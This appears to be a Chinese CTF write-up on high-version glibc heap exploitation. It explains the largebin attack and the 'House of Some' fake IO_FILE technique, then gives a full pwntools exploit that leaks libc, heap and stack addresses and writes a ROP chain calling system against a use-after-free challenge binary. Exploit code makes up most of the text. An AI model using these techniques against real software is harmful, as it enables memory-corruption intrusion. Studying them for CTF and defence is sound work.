





高版本libc堆题最后往往都要用到 largebinattack和IO_FILE的一些利用手法，总结一个超级模板的题目。
Largebin_attack
largebin最后实现的效力是可以往任意地址中写一个堆地址，我们常常在后面衔接IO_FILE的相关攻击，例如我们可以将IO_list_all控制到一个堆中，仅仅只有前0x10字节不可控(为prev_size位和size位)

2.30以上的largebin 增加了两个检查 用于检查链表的完整性

因此可以衍生出一个模板
add(0x4a0) # chunk a
block
add(0x480) # chunk b
delete(A) # 此时 a进入unsortedbin
add(0x500) # 此时 遍历Unsortedbin 不符合 然后将 a放到largebin 然后从topchunk切割一个0x510
delete(B) # 此时b进入了 unsortebin
edit(A->bk_nextsize = target - 0x20) # 将A的next size写成目标地址 - 0x20 然后在link的过程中就会往对应地址写入 chunk B的地址
add(0x500) # 遍历unsorted bin 发现没有符合大小的堆块 将chunk b 放到 largebin中
largebin attack可以在想要的地方 -0x20踩一个堆地址，但前0x10字节不可控。

但这种情况下house of apple2依然能打(
注意两个堆块大小要不同，但是要在一个sizemap中
这种情况下 IO_list_all结构题就指向了我们那个小堆块，也就是B。但是有时候会有比较苛刻的情况，我们只能控制大的堆块，那很简单的思路就是再malloc一个跟小堆块B大小相同的堆块，这样就会从largebin中脱链，从而将IO_list_all指向大堆块。
House Of Some 1
最初是通过hkbin学会的这个方法
一个非常优雅的方案iofile攻击。
原始链接已经非常详细，下面只做基础总结
适用条件
- 已知glibc基地址
- 可控的已知地址（可写入内容构造fake file）
- 需要一次libc内任意地址写可控地址
- 程序能正常退出或者通过exit()退出
思路
问题在于 _IO_new_file_underflow 中调用 _IO_SYSREAD (fp, fp->_IO_buf_base,fp->_IO_buf_end - fp->_IO_buf_base)
ssize_t
_IO_file_read (FILE *fp,void *buf,ssize_t size)
{
return (__builtin_expect (fp->_flags2 & _IO_FLAGS2_NOTCANCEL,0)
? __read_nocancel (fp->_fileno, buf, size)
: __read (fp->_fileno, buf, size));
}
最后是调用syscall(read)读，我们可以看到read的三个参数都是可控的
fd=>fp->_filenobuf=>fp->_IO_buf_basesize=>fp->_IO_buf_end - fp->_IO_buf_base
那么就可以构造一个任意地址写，那么有了任意地址写之后有啥用呢？FSOP！
对于_IO_list_all上的单向链表，通过了_chain串起来，并在_IO_flush_all中，会遍历链表上每一个FILE，如果条件成立，就可以调用_IO_OVERFLOW(fp, EOF)
_IO_new_file_underflow内有一个_IO_switch_to_get_mode函数其中有这个分支
if (fp->_IO_write_ptr > fp->_IO_write_base)
if (_IO_OVERFLOW (fp, EOF) == EOF)
return EOF;
如果还是使用fp->_IO_write_ptr > fp->_IO_write_base来使得触发OVERFLOW就会出现无限递归，所以不可行，我们需要采取另一个分支，即
if (((fp->_mode <=0 && fp->_IO_write_ptr > fp->_IO_write_base)// 不可行
|| (_IO_vtable_offset (fp) ==0// 使用||之后的分支
&& fp->_mode >0 && (fp->_wide_data->_IO_write_ptr
> fp->_wide_data->_IO_write_base))
)
&& _IO_OVERFLOW (fp, EOF) == EOF)
fake_io_file设置
_flags设置为~(2 | 0x8 | 0x800)，设置为0即可（与apple2相同）vtable设置为_IO_wfile_jumps/_IO_wfile_jumps_mmap地址，使得调用_IO_wfile_overflow即可（注意此处与apple2不同的是，此处的vtable不能加偏移，否则会打乱_IO_SYSREAD的调用）_wide_data->_IO_write_base设置为0，即满足(_wide_data + 0x18) = 0（与apple2相同）_wide_data->_IO_write_ptr设置为大于_wide_data->_IO_write_base，即满足(_wide_data + 0x20) > *(_wide_data + 0x18)（注意此处不同）_wide_data->_IO_buf_base设置为0，即满足(_wide_data + 0x30) = 0（与apple2相同）_wide_data->_wide_vtable设置为任意一个包含_IO_new_file_underflow，其中原生的vtable就有，设置成_IO_file_jumps-0x48即可_vtable_offset设置为0_IO_buf_base与_IO_buf_end设置为你需要写入的地址范围_chain设置为你下一个触发的fake file地址_IO_write_ptr <= _IO_write_base即可_fileno设置为0，表示read(0, buf, size)_mode设置为2，满足fp->_mode > 0即可
任意地址读入:
from pwncli import *
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x40 | 0x1000
fake_IO_FILE.fileno = 0
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = read_from # 需要读入的起始地址
fake_IO_FILE._IO_write_ptr = read_from+len # 读入长度
fake_IO_FILE.chain = _chain # 下一个fake_IO_FILE的地址
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps'] - 0x8
payload = bytes(fake_IO_FILE)
任意地址写入:
from pwncli import *
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x800 | 0x1000
fake_IO_FILE.fileno = 1
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = write_from # 需要写入的起始地址
fake_IO_FILE._IO_write_ptr = write_from + len # 写入长度
fake_IO_FILE.chain = _chain # 下一个fake_IO_FILE的地址
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps']
payload = bytes(fake_IO_FILE)
不难看出，我们只需要布置好fake_io_file就可以任意地址读和任意地址写。
这里面一个fake_io_file是0xe0大小，因此我们可以随便找一个能写入的地址连续布置，比如libc下面的annonxxx，或者是在知道堆地址的随便什么位置也可以。
流程图来自csome

例题分析
一个菜单堆，只能申请largebin大小的堆块，有uaf
所以第一步是先泄露各种地址。泄露libc可以用unsortedbin或者是largebin来泄露，泄露堆地址在本题中就用largebin的fd_nextsize来做。。
# 这是那个大的堆块A
add(0,0x620)
# 做一个block，防止释放B的时候和A合并
add(1,0x608)
# 这是那个小的堆块B
add(2,0x608)
# A进入到unsortedbin
delete(0)
# block 防止B和top_chunk合并，同时把A送到largebin
add(3,0x700)
show(0)
leak_libc = u64(p.recv(6).ljust(8,b"\x00"))
success(hex(leak_libc))
libc_base = leak_libc - 0x21b150
success(hex(libc_base))
libc.address = libc_base
# 填满fd和bk 就可以利用fd_nextsize来leak heap地址
edit(0, b'a'*0x10)
show(0)
p.recvuntil(b'a'*0x10)
leak_heap = u64(p.recv(6).ljust(8,b"\x00"))
success(hex(leak_heap))
heap_base = leak_heap - 0x290
# recover
success(f"heap_base:{hex(heap_base)}")
edit(0,flat(
leak_libc,leak_libc
))
然后就是利用largebin_attack
# 把B 送入unsortedbin
delete(2)
# 改A
edit(0,flat(
leak_libc,leak_libc,
leak_heap,libc.sym['_IO_list_all']- 0x20
))
# B送到largebin 开始链入
add(4,0x700)
然后我们的IO_list_all就可控了

然后衔接上我们的house_of_some
# 随便找一个有写权限的地址
write_addr = libc_base + 0x21c000
# 控制iolistall 是read 要读入输入的payload
edit(2,house_of_some_read(write_addr, 0x200 ,write_addr)[0x10:])
# 构造payload，将environ的值输出，达到leak_stack的目的
payload = house_of_some_write(libc.sym['__environ'], 0x8, write_addr + 0xe0)
# 再接上read，这样我们可以输入一个往栈上读入的fake_iofile
payload += house_of_some_read(write_addr + 0xe0 * 2 , 0x200 , write_addr + 0xe0 * 2)
p.sendlineafter(b"5. exit\n",str(5))
p.send(payload)
leak_stack = u64(p.recv(6).ljust(8,b"\x00"))
success(hex(leak_stack))
target_stack = leak_stack - 0x2b0
success(f"target:{hex(leak_stack)}")
# 往栈上写rop链
pad = house_of_some_read(target_stack,0x200,heap_base + 0xffff)
p.send(pad)
pad = flat(
0x000000000002a3e5 + libc_base, 0x00000000001d8678 + libc_base,
0x000000000002be51 + libc_base, 0,
0x00000000000904a9 + libc_base,0,0,
libc.sym['system']
)
p.send(pad)
gdb.attach(p)
p.interactive()
参考链接
- csome: Bring back the stack attack – House of some一种高版本glibc的利用思路
- 也可以整一个很抗干扰的链子，用
house of apple2和svciudp_reply: house of 一骑当千&&svcudp_reply
附录:完整exp
from pwn import *
from pwncli import *
arch = "amd64"
log_level = "debug"
libc_path = "./libc.so.6"
elf_path = "./pwn"
context.arch = arch
context.log_level = log_level
context.terminal =['tmux','splitw','-h']
exe = ELF(elf_path)
libc = ELF(libc_path)
p = process(elf_path)
# p = remote(remote_ip, remote_port)
def dbg():
gdb.attach(p)
pause()
def cmd(i, prompt=b""):
pass
def add(index, size):
p.sendlineafter("5. exit",str(1))
p.sendlineafter("idx: ",str(index))
p.sendlineafter("size: ",str(size))
def delete(index):
p.sendlineafter("5. exit",str(2))
p.sendlineafter("idx: ",str(index))
def show(index):
p.sendlineafter("5. exit",str(3))
p.sendlineafter("idx: ",str(index))
def edit(index, payload):
p.sendlineafter("5. exit",str(4))
p.sendlineafter("idx: ",str(index))
p.sendafter("content: ",payload)
def tcache_safelink(target_addr, tcache_addr):
return target_addr ^ (tcache_addr >> 12)
def csu_gadget(part1, part2, jmp2, arg1 = 0, arg2 = 0, arg3 = 0):
payload = p64(part1) # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret
payload += p64(0) # rbx be 0x0
payload += p64(1) # rbp be 0x1
payload += p64(jmp2) # r12 jump to
payload += p64(arg3) # r13 -> rdx arg3
payload += p64(arg2) # r14 -> rsi arg2
payload += p64(arg1) # r15 -> edi arg1
payload += p64(part2) # part2 entry will call [r12 + rbx * 0x8]
payload += b'A' * 56 # junk 6 * 8 + 8 = 56
return payload
def house_of_some_read(read_from, len, _chain):
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x40 | 0x1000
fake_IO_FILE.fileno = 0
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = read_from
fake_IO_FILE._IO_write_ptr = read_from+len
fake_IO_FILE.chain = _chain
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps'] - 0x8
return bytes(fake_IO_FILE)
def house_of_some_write(write_from, len, _chain):
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x800 | 0x1000
fake_IO_FILE.fileno = 1
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = write_from
fake_IO_FILE._IO_write_ptr = write_from + len
fake_IO_FILE.chain = _chain
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps']
return bytes(fake_IO_FILE)
add(0,0x620)
add(1,0x608)
add(2,0x608)
delete(0)
# block
add(3,0x700)
show(0)
leak_libc = u64(p.recv(6).ljust(8,b"\x00"))
success(hex(leak_libc))
libc_base = leak_libc - 0x21b150
success(hex(libc_base))
libc.address = libc_base
edit(0, b'a'*0x10)
show(0)
p.recvuntil(b'a'*0x10)
leak_heap = u64(p.recv(6).ljust(8,b"\x00"))
success(hex(leak_heap))
heap_base = leak_heap - 0x290
# recover
success(f"heap_base:{hex(heap_base)}")
edit(0,flat(
leak_libc,leak_libc
))
success(hex(leak_libc))
delete(2)
edit(0,flat(
leak_libc,leak_libc,
leak_heap,libc.sym['_IO_list_all']- 0x20
))
add(4,0x700)
write_addr = libc_base + 0x21c000
edit(2,house_of_some_read(write_addr, 0x200 ,write_addr)[0x10:])
gdb.attach(p)
payload = house_of_some_write(libc.sym['__environ'], 0x8, write_addr + 0xe0)
payload += house_of_some_read(write_addr + 0xe0 * 2 , 0x200 , write_addr + 0xe0 * 2)
p.sendlineafter(b"5. exit\n",str(5))
p.send(payload)
leak_stack = u64(p.recv(6).ljust(8,b"\x00"))
success(hex(leak_stack))
target_stack = leak_stack - 0x2b0
success(f"target:{hex(leak_stack)}")
pad = house_of_some_read(target_stack,0x200,heap_base + 0xffff)
p.send(pad)
pad = flat(
0x000000000002a3e5 + libc_base, 0x00000000001d8678 + libc_base,
0x000000000002be51 + libc_base, 0,
0x00000000000904a9 + libc_base,0,0,
libc.sym['system']
)
p.send(pad)
p.interactive()